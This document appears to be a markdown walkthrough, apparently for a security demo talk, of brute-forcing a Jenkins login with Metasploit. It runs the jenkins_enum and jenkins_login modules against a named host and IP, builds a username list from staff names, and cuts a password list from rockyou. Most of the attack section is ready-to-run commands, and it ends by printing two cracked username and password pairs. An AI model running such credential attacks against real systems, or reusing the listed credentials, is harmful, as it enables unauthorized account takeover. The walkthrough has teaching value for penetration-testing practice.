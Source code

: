# Bruteforce Jenkins Login
This section aims to login to the company's Jenkins instance.
To do so, we'll prepare a list of usernames and check login with rockyou list.
Before login can be bruteforced, the login URL must be identified via BurpSuite.

## Enum Module
Let's get some details of Jenkins

```bash
msfconsole
use auxiliary/scanner/http/jenkins_enum
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set TARGETURI /
exploit
```
We detect that theres a pretty modern version of Jenkins running.
```bash
[+] 34.159.77.191:8080    - Jenkins Version 2.387.3
[*] /script restricted (403)
[*] /view/All/newJob restricted (403)
[*] /asynchPeople/ restricted (403)
[*] /systemInfo restricted (403)
```
There are no easy-to-use exploits available for this version
```bash
searchsploit Jenkins 2.3
```
So there are at least two options left:
* attack the host
* get access to Jenkins

Getting access via Social Engineering or Passwordcracking is the first attempt.

## Prepare Usernamelist

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk/username-list-generator
rm output.txt user.txt
nano user.txt
```

put the names into nano.
Dont take all names to not break too much bruteforce into
```
Kay Meyer
Robert Bartsch
Ricardo Pope
Jeffrey van der Linden
```

```bash
python3 userlistcreator.py
mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```

## Prepare Passwordlist
Let's use the end of rockyoulist as that contains the sophisticated passwords
It contains 14344392 leaked passwords
Rockyou.txt is a set of compromised passwords from the social media application developer also known as RockYou. It developed widgets for the Myspace application. In December 2009, the company experienced a data breach resulting in the exposure of more than 32 million user accounts. It was mainly because of the company’s policy of storing the passwords in cleartext.

```bash
cd /root/demotalk/jenkinsBrute/
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
```


## Login Scan Module
If we want to access Jenkins as a user, we need to find a bit more information of login options.

#### Get Login URL
There are typically two login-URLs in Jenkins-world
* /j_acegi_security_check
* j_spring_security_check
or something the Administrator configured (like PingAccess or so)

Let's use Burpsuite to find out details.

### Prepare Options
Now that we know how to login, we can use metasploit to brute force login.
The exploit must be configured.

```bash
msfconsole
use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
exploit
```
There will be two successful attempts

```bash
[+] 34.159.77.191:8080 - Login Successful: Robert.Bartsch:!@#$%1234pacr1234!@#$%
[+] 34.159.77.191:8080 - Login Successful: Jeffrey_van_d_Linden:!@#$%67890QAZwsxh
```
